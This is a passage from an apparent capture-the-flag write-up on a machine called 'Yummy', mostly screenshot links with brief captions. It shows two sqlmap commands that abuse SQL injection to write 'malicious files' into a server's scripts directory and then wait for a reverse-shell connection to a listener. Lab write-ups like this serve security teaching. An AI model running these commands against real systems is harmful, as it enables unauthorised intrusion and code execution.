 The upload was successful 

<br/> 
<img src="/img/yummy_screenshots/Pasted image 20241009111302.png" alt="1" style="width:700px; height:auto;">
<br/>

Crafting the new malicious files 

<br/> 
<img src="/img/yummy_screenshots/Pasted image 20241009113050.png" alt="1" style="width:700px; height:auto;">
<br/>

Now uploading them using `sqlmap`

```bash
 sqlmap -r admin_req --level 3 --risk 3 --batch --file-write "fixer-v" --file-dest "/data/scripts/fixer-v"
```

```bash
sqlmap -r admin_req --level 3 --risk 3 --batch --file-write "dbstatus.json" --file-dest "/data/scripts/dbstatus.json"
```

The files were uploaded successfully. Now waiting for a connection back to our `listener`  
<br/> 
<img src="/img/yummy_screenshots/Pasted image 20241009114519.png" alt="1" style="width:700px; height:auto;">
<br/>
